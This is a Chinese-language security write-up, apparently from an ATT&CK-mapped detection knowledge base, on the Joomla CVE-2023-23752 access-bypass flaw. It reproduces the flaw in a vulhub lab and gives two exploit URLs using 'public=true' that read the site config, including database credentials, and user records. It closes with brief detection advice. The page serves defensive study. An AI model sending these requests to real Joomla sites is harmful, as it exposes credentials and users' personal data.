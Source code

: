 # T1190-CVE-2023-23752-Joomla权限绕过漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Joomla是一个开源免费的内容管理系统（CMS），基于PHP开发。

在其4.0.0版本到4.2.7版本中，存在一处属性覆盖漏洞，导致攻击者可以通过恶意请求绕过权限检查，访问任意Rest API。

参考链接：

- <https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html>
- <https://xz.aliyun.com/t/12175>
- <https://vulncheck.com/blog/joomla-for-rce>

## 检测日志

HTTP.log

## 测试复现

### 漏洞环境

漏洞环境参考vulhub进行部署模拟

执行如下命令启动一个Joomla 4.2.7：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可查看到Joomla页面。

### 漏洞复现

这个漏洞是由于错误的属性覆盖导致的，攻击者可以通过在访问Rest API时传入参数`public=true`来绕过权限校验。

比如，访问下面这个链接即可读取所有配置项，包括数据库连接用户名和密码：

```
http://your-ip:8080/api/index.php/v1/config/application?public=true
```

![](1.png)

如果不添加`public=true`，则访问会被拒绝。

访问下面这个链接即可读取所有用户信息，包含邮箱等：

```
http://your-ip:8080/api/index.php/v1/users?public=true
```

![](2.png)

## 测试留痕

![](3.png)

![](4.png)

流量包见同目录下pcap文件。

## 检测规则/思路

对请求路径及返回内容进行重点关注，研判分析时要根据url路径内容，结合返回信息+状态码进行研判。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Joomla权限绕过漏洞（CVE-2023-23752）

<https://github.com/vulhub/vulhub/blob/6e9b1c1acd60529384a5751ea9de4dae595259c6/joomla/CVE-2023-23752/README.zh-cn.md?plain=1>

Joomla未授权访问漏洞|CVE-2023-23752复现及修复

<https://www.cnblogs.com/xiaoyunxiaogang/p/17219281.html>
